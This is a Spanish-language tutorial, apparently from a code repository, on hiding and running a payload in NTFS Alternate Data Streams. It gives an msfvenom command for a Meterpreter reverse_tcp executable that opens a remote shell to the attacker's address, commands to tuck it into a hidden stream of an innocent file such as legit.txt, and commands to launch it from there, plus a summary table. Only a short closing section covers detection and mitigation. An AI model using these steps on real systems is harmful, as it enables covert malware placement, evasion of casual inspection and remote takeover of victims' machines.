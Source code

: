 # Flujos de Datos Alternativos (ADS) en NTFS para ocultar un payload

---

## ¿Qué es un flujo de datos alternativo?

- NTFS (sistema de archivos de Windows) permite asociar **múltiples flujos de datos** a un único archivo.
- El contenido "visible" es el flujo principal (`:$DATA`), pero se pueden añadir flujos adicionales ocultos.
- Estos flujos no son detectados por herramientas básicas como `dir` ni por el Explorador de Windows.
- Técnica útil para ocultar código malicioso (payloads) en archivos aparentemente inocuos.

---

## ¿Cómo identificar un sistema vulnerable?

- Solo funciona en volúmenes formateados con **NTFS**.
- Puedes comprobar el sistema de archivos con:
```
fsutil fsinfo volumeinfo C:
```
- Si dice `File System Name: NTFS`, puedes usar ADS en esa unidad.

---

# Crear y ejecutar un payload oculto en un ADS

---

## 1️⃣ Generar un payload

Por ejemplo, un Meterpreter con msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f exe > payload.exe
```

---

## 2️⃣ Asociar el payload como flujo alternativo

Supón que tienes un archivo inocente llamado `legit.txt`.

Para guardar el payload en un flujo oculto:
```
type payload.exe > legit.txt:hidden.exe
```

Esto guarda el contenido de `payload.exe` en el flujo `hidden.exe` de `legit.txt`.

---

## 3️⃣ Verificar que está oculto

Si haces un `dir`, sólo verás:
```
legit.txt
```

No aparece `hidden.exe`.

---

## 4️⃣ Ejecutar el payload desde el flujo alternativo

Puedes lanzar el contenido oculto del flujo usando:
```
start .\legit.txt:hidden.exe
```

O con `cmd.exe`:
```
cmd.exe /c legit.txt:hidden.exe
```

Esto ejecutará el payload contenido en el flujo alternativo.

---

# Resumen de comandos

| Acción                                  | Comando                                     |
|----------------------------------------|-------------------------------------------|
| Comprobar NTFS                         | `fsutil fsinfo volumeinfo C:`            |
| Crear payload                          | `msfvenom ... > payload.exe`             |
| Esconder payload en ADS                | `type payload.exe > legit.txt:hidden.exe`|
| Listar archivo principal              | `dir`                                    |
| Ejecutar el flujo alternativo         | `start .\legit.txt:hidden.exe`           |

---

## Notas

- ADS solo es válido en volúmenes NTFS.
- Herramientas como `streams.exe` de Sysinternals pueden detectar y listar los ADS:
```
streams legit.txt
```
- Antimalware moderno suele inspeccionar los ADS y puede detectarlos.

---

## Mitigación (para administradores)

- Evitar el uso de NTFS en escenarios de alto riesgo si no es necesario.
- Usar herramientas para auditar ADS regularmente.
- Restringir permisos de escritura y ejecución en carpetas críticas.
